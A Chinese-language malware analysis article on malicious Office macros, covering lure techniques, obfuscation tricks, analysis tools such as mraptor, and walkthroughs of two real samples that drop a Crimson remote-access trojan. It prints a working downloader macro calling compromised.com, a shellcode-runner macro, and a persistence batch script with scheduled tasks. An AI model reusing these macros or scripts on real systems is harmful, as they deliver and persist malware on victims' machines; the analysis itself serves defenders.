


干货 | 恶意代码分析之Office宏代码分析
基于宏的攻击活动
有时候，宏代码会直接访问攻击者的C2，下载恶意文件到本地运行。
有时候，宏代码会解密释放出一个powershell代码，再调用powershell脚本，通过powershell脚本去实现环境检测、文件下载等功能。
宏代码基于的是VB的语法，如果没有混淆的宏代码阅读起来倒是比较方便，但是现在的大多数宏样本都会有混淆和一些反调试手法，所以在遇到各类宏代码的时候也要根据情况去分析。
一些钟爱office宏攻击的家族
2015年和2016年两次袭击乌克兰发电厂，导致停电。2018年攻击平昌冬奥会。
恶意宏如何运行
1.在文档中间显示一个模糊的图片，提示用户启用宏才能查看清晰图片。
2.在文档中伪造安全的机构，比如伪造微软，或者伪造一个杀软的图标，让用户相信这个文档是安全的。
3.与用户交互，把宏代码的执行设置在用户单击了某个图片或者按钮则提示用户启用宏。
恶意宏代码通常被用来做什么
Run Automatically 自动运行
Download Files 下载文件
CreateFiles 创建文件
Execute a file 执行、启动文件
Run a system command 执行系统命令
call any dll 调用任意dll
Inject Shellcode 注入shellcode
Call any ActiveXObkject 调用任意的ActiveXObject
Simulate Keystrokes 模拟用户点击
…
private Declare Function URLDownloadToFileA Lib "urlmon"(ByVak A AS Long,ByVal B As String ,ByVal C As String ,ByVal D As Long ,ByVal E As Long ) As LongSub Auto_Open()Dim result As Longfname = Environ("TEMP") & "agent.exe"result =URLDownloadToFileA(0,"http:compromised.com/payload.exe",fname,0,0)Shell fnameEnd Sub
在第六行定义了名为Auto_Open的函数，该函数在文档打开的时候会自动运行（如果允许文档执行宏）
第八行滴位置，指明了下载文件的存放路径和名称
第9行的地方调用了URLDownloadToFileA函数，下载文件保存到本地
第10行的位置执行下载的payload
简单的混淆、反调试技术
一个典型的例子：利用InkPicture1_Painted
2.隐藏数据
3.用于隐藏数据的Word文档变量，文档变量可以存储多达64KB的数据，隐藏在MS Word用户界面中。
4.通过CallByName混淆函数调用
https://msdn.microsoft.com/en-us/library/office/gg278760.aspx
5.使用WMI运行命令
6.调用powershell
7.运行VBScript或者Jscript，运行VBS/JS代码而不将文件写入磁盘
可参考文档：https://docs.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-6.0/aa227637(v=vs.60)?redirectedfrom=MSDN
代码示例：https://www.experts-exchange.com/questions/28190006/VBA-ScriptControl-to-run-Java-Script-Function.html
8.通过API回调运行shellcode
Private Declare Function createMemory Lib "kernel32" Alias "HeapCreate" (ByVal flOptions As Long, ByVal dwInitialSize As Long, ByVal dwMaximumSize As Long) As LongPrivate Declare Function allocateMemory Lib "kernel32" Alias "HeapAlloc" (ByVal hHeap As Long, ByVal dwFlags As Long, ByVal dwBytes As Long) As LongPrivate Declare Sub copyMemory Lib "ntdll" Alias "RtlMoveMemory" (pDst As Any, pSrc As Any, ByVal ByteLen As Long)Private Declare Function shellExecute Lib "kernel32" Alias "EnumSystemCodePagesW" (ByVal lpCodePageEnumProc As Any, ByVal dwFlags As Any) As LongPrivate Sub Document_Open()Dim shellCode As StringDim shellLength As ByteDim byteArray() As ByteDim memoryAddress As LongDim zL As LongzL = 0Dim rL As LongshellCode = "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"shellLength = Len(shellCode) / 2ReDim byteArray(0 To shellLength)For i = 0 To shellLength - 1If i = 0 Thenpos = i + 1Elsepos = i * 2 + 1End IfValue = Mid(shellCode, pos, 2)byteArray(i) = Val("&H" & Value)NextrL = createMemory(&H40000, zL, zL)memoryAddress = allocateMemory(rL, zL, &H5000)copyMemory ByVal memoryAddress, byteArray(0), UBound(byteArray) + 1executeResult = shellExecute(memoryAddress, zL)End Sub
代码的前四行用于引用系统库，调用系统API
16行处是shellcode的十六进制编码，在这个例子中功能是打开计算器。
29行处是将shellcode的十六进制编码转换为二进制数据流
36行处将shellcode copy到了buffer处
38处执行了shellcode
关于office的加密
分享两个解密的工具：
https://github.com/nolze/msoffcrypto-tool
https://github.com/herumi/msoffice
宏代码的分析工具
这里不得不提一下从VBA编辑器隐藏VBA代码的技巧：https://github.com/outflanknl/EvilClippy
该工具可以有效的提取office文档中的宏代码，需要python环境支持。
mraptor
https://github.com/decalage2/oletools/wiki/mraptor
mraptor有三个检测标准，分别是：
A 自动执行（触发器）
W 写入文件系统或内存
X 在VBA上下文外执行文件或任何payload
当某个office宏满足了A条件，那么W和X只要满足任意一条，则会被mraptor标注为恶意。
该项目依赖python环境，用法如下：
Usage: mraptor [options] <filename> [filename2 ...]Options:-h, --help show this help message and exit-r find files recursively in subdirectories.-z ZIP_PASSWORD, --zip=ZIP_PASSWORDif the file is a zip archive, open all files from it,using the provided password (requires Python 2.6+)-f ZIP_FNAME, --zipfname=ZIP_FNAMEif the file is a zip archive, file(s) to be openedwithin the zip. Wildcards * and ? are supported.(default:*)-l LOGLEVEL, --loglevel=LOGLEVELlogging level debug/info/warning/error/critical(default=warning)-m, --matches Show matched strings.An exit code is returned based on the analysis result:- 0: No Macro- 1: Not MS Office- 2: Macro OK- 10: ERROR- 20: SUSPICIOUS
mraptro file.doc
样本app.any.run沙箱链接：https://app.any.run/tasks/d6d22f4e-0376-49f5-8480-d07489a4e03b/
这里如果选择禁用的话，那么后续文档将显示为空：
由攻击目标为印度，根据已有的信息，我们可以找到一些针对印度的攻击组织，如Confucius 、APT36(C-Major、Transparent Tribe)、GravityRAT等。
在通过office调试宏代码时，调试的快捷键和od、x64dbg这种调试器有部分区别，具体如下：


在代码最开始，程序定义了多个变量
Dim path_Aldi_file As StringDim file_Aldi_name As StringDim zip_Aldi_file As VariantDim fldr_Aldi_name As VariantDim byt() As ByteDim ar1Aldi() As String
file_Aldi_name = “rlbwrarhsa”
对file_Aldi_name进行了赋值。
fldr_Aldi_name = Environ$(“ALLUSERSPROFILE”) & “Tdlawis”
对fldr_Aldi_name进行赋值。
其中，Environ$(“ALLUSERSPROFILE”) 表示获取%ALLUSERSPROFILE%环境变量，&符号表示拼接。
所以该语句运行完之后，fldr_Aldi_name = %ALLUSERSPROFILE%Tdlawis
当然，我们也可以直接按F8单步往下走，在调试器中查看对应的值，这是最快的方法。
If Dir(fldr_Aldi_name, vbDirectory) = "" ThenMkDir (fldr_Aldi_name)End If
fldrz_Aldi_name = Environ$("ALLUSERSPROFILE") & "Dlphaws"If Dir(fldrz_Aldi_name, vbDirectory) = "" ThenMkDir (fldrz_Aldi_name)End If
zip_Aldi_file = fldrz_Aldi_name & “omthrpa.zip”
声明一个zip路径，路径应该为%ALLUSERSPROFILE%Dlphawsomthrpa.zip
path_Aldi_file = fldr_Aldi_name & file_Aldi_name & “.exe”
声明一个path路径，路径应该为：%ALLUSERSPROFILE%Tdlawisrlbwrarhsa.exe

If InStr(Application.OperatingSystem, "6.02") > 0 Or InStr(Application.OperatingSystem, "6.03") > 0 Thenar1Aldi = Split(UserForm1.TextBox2.Text, ":")Elsear1Aldi = Split(UserForm1.TextBox1.Text, ":")End If
For Each vl In ar1AldiReDim Preserve btsAldi(linAldi)= CByte(vl)linAldi = linAldi + 1Next
Open zip_Aldi_file For Binary Access Write As #2Put #2, , btsAldiClose #2
If Len(Dir(path_Aldi_file)) = 0 ThenCall unAldizip(zip_Aldi_file, fldr_Aldi_name)End If
解压成功后将会在fldr_Aldi_name目录下出现目标文件：
Shell path_Aldi_file, vbNormalNoFocus
启动该exe，程序即从xls文件成功转入到了exe文件运行。
由于该exe由C#编写，是一个Crimson远控，关于该类木马的分析，将在后续的文章中进行介绍。
1.诱导用户启用宏，诱导方式，如果不启用宏，xls文档打开之后将不现实任何内容
2.将预定义的zip数据流简单转换之后写入到窗体中
3.根据操作系统版本的不同，取窗体中不同的值
4.将取出来的数据进行简单变换之后还原为zip文件
5.解压zip文件得到一个Crimson远控
6.运行该远控
any沙箱连接为：
https://app.any.run/tasks/2d9a7598-47d9-46a9-9d03-9b3ece716fa6/
同样的弹出了禁用宏的提示框：

代码开头还是通过Dim定义了几个变量，然后通过Environ获取了环境变量APPDAT和TEMP的路径分别赋值给Digital和request
Digital = Environ$(“APPDATA”)
request = Environ$(“TEMP”)
Application.Wait Now + TimeValue(“0:00:03”)
休眠3秒
a = MsgBox(“Microsoft Excel has stopped working”, vbCritical, “Warning”)
进行弹框，弹框内容就是我们先前看到的提示框，这就是第二种迷惑用户的手法。
在上一个样本中，恶意宏代码运行之后，程序会显示一个看起来正常的xls文档以消除用户的疑心。在本样本中，恶意代码运行之后，程序是通过弹框提示用户文档打开错误以消除用户的疑心。两种方法的目标都在于，让用户误以为，打开的文档是没有问题的。
sunjava = “Scr” + “ipting.File” + “System” + “Object”
Set digit = CreateObject(sunjava)
创建一个Scripting.FileSystemObject对象
Sheet12.OLEObjects("Object 1").CopySheet8.OLEObjects("Object 1").Copydigit.CopyFile request & "Vol", Digital & "s.bat" 'FileFormat:=xlOpenXMLWorkbookdigit.CopyFile request & "s", Digital & "s" 'FileFormat:=xlOpenXMLWorkbook
https = Digital & “” & “s.bat”
Call Shell(https, vbHide)
拼接s.bat的路径并且再次通过Shell指令运行。
1.弹框迷惑用户
2.释放一个S文件，经查看为一个PE文件
3.释放一个s.bat批处理文件
4.调用执行s.bat文件
echo offmd %USERPROFILE%InetLogsCustmd %USERPROFILE%InetLogsPoolmd %USERPROFILE%CommonBuildOfficemd %USERPROFILE%FilesSharedWebmd %USERPROFILE%ViewerInformationPolicyattrib +a +h +s %USERPROFILE%Inetattrib +a +h +s %USERPROFILE%Commonattrib +a +h +s %USERPROFILE%Filesattrib +a +h +s %USERPROFILE%Viewerdel /f %USERPROFILE%InetLogsPoolagniaSET /A %COMPUTERNAME%SET /A RAND=%RANDOM% 10000 + 2echo %COMPUTERNAME%-%RAND% >> %USERPROFILE%InetLogsPoolagniaschtasks /delete /tn Feed /fschtasks /delete /tn Sys_Core /fschtasks /create /sc minute /mo 10 /f /tn Sys_Core /tr %USERPROFILE%FilesSharedWebgapdat.exeschtasks /create /sc minute /mo 30 /f /tn Feed /tr "rundll32.exe '%USERPROFILE%ViewerInformationPolicysqmap.dll', calldll"move %AppData%s %USERPROFILE%ViewerInformationPolicyren %USERPROFILE%ViewerInformationPolicys sqmap.dlldel %0
目前vt(2020-06-24)上关于sqlmap.dll检出量为0：
首先通过IDA加载sqlmap.dll，我们可以得到PDB信息：C:UsersspartanDocumentsVisual Studio 2010new projectsfrontendReleasetest.pdb
bbLorkybbYngxkjbb]khbbmgvjgz4k~k
解密得到
dnsresolve.live

推荐阅读：

点赞，转发，在看
文章来源：安全客
作者：想吃肚包鸡